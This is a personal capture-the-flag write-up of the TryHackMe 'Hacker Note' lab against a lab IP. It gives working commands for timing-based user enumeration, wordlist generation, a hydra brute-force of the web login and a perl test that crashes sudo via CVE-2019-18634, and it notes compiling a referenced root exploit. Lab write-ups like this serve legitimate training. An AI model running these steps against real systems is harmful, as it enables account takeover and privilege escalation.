 # Matheus Jesus 12-04-2020

## Try Hack Me - [Hacker Note](https://tryhackme.com/room/hackernote)

### IP 10.10.229.108

#### Recon

nmap -sC -sV -oN nmap_initial 10.10.229.108

ssh on 20

golang http server on 80
golang http server on 8080

#### Investigation

##### User Enum reference - [Here](https://github.com/NinjaJc01/hackerNoteExploits)

created an account admin:admin on /login

wrong username says invalid username or password

wrong password says logging you in for an instant (this means we can enumerate users)

script on go -> maybe refactored

found admin and james users

james is our user to be attacked

##### James Hint - "Hint: My favourite colour and my favourite number"

##### Combine password [reference](https://github.com/hashcat/hashcat-utils/releases)

Downloaded a colors.txt wordlist

generated a crunch 1 2 0123456789 > numbers.txt wordlist

./combinator.bin colors.txt numbers.txt > combined.txt

hydra -l james -P combined.txt 10.10.229.108 http-post-form /api/user/login:{"username":"^USER^", "password":"^PASS^}:failed

hydra is getting fucked by the post api with body

try patator.py

##### found james:blue7

login on the platform

##### James Note - So that I don't forget, my SSH password is dak4ddb37b

#### Escalate

The perl command shows the OS is not patched against CVE-2019-18634

perl -e 'print(("A" x 100 . "\x{00}") x 50)' | sudo -S id
[sudo] password for james: Segmentation fault (core dumped)

##### Exploit [reference](https://github.com/saleemrashid/)

gcc escalate.c -o run
chmod +x run
./run

DONE !!

# References

Further reading

## Timing attacks on logins

https://seclists.org/fulldisclosure/2016/Jul/51
https://www.gnucitizen.org/blog/username-enumeration-vulnerabilities/
https://wiki.owasp.org/index.php/Testing_for_User_Enumeration_and_Guessable_User_Account_(OWASP-AT-002)

## Adobe Password Breach

https://nakedsecurity.sophos.com/2013/11/04/anatomy-of-a-password-disaster-adobes-giant-sized-cryptographic-blunder/

## Sudo CVE

https://dylankatz.com/Analysis-of-CVE-2019-18634/
https://nvd.nist.gov/vuln/detail/CVE-2019-18634
https://tryhackme.com/room/sudovulnsbof
